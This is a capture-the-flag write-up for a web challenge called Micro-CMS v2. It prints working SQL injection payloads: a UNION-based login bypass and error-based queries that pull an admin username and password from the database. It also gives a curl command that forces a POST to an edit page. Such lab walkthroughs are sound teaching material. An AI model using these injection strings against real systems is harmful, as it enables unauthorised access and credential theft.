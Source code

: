 micro-cms v2

# Micro-CMS
## Flags = 3


![start.png](../_resources/27dd890373f747a197023292a11d33a4.png)

## Flag 1/3


![1.png](../_resources/679814e70a1c46d4a8eda08e4f9804a5.png)

Looking at the firt page I noticed the `Create a new page` link clicked it it led to a login page.


![2.png](../_resources/925cf039e2474475ac1efdcc4430ab69.png)


First step is usually to check the page source for clues.



![3.png](../_resources/04a17fb077354e37b8756ace243cf48b.png)

No clues.

Next step was to check for sql injection vulnerability.
For the Username and password fiel I used  a single quote `'`
This threw an interesting error.


![4.png](../_resources/e1e5e09af6c94fb0a076dfa3fb3fd7ef.png)

This is an indication of sql injection.

After trying several inputs I used a hint.


![5.png](../_resources/8d0642755b5047868323c786267a6877.png)

The hint mentioned union.
I used the following inputs.
Username:
```
joey' UNION SELECT "111" as password FROM admins WHERE '1' = '1
```
password:
```
111
```
This worked and opened a  new homepage that had a private page.


![6.png](../_resources/8d69b21bc3204a94991ef3dfd4a36f16.png)


The private page had the flag.



![7.png](../_resources/4060b9cdc07c4e2d8239783949fc4c94.png)

## Flag 2/3

Using the hint


![8.png](../_resources/6837ab8a8990461597875e85b6ff33d8.png)

Using CURL to force POST instead of get.

```
curl -v -X POST http://34.94.3.143/de93690fd4/page/edit/1
```

 

![9.png](../_resources/5124571148e74ba888ab5ffabaee2d21.png)


## Flag 3/3

For this I did a double sql injection.
I tried a couple of inputs for the login. This worked
```
username=foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.username as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1
```

It showed the user name


![10.png](../_resources/0e166e19575f4b6497e139dec03e15af.png)

Username : lizzette

```
username=foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.password as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1

```
Password : katharine

using the username and password I got the last flag



![11.png](../_resources/5c48d879acba41fbadd8b4406658211b.png)

dones



























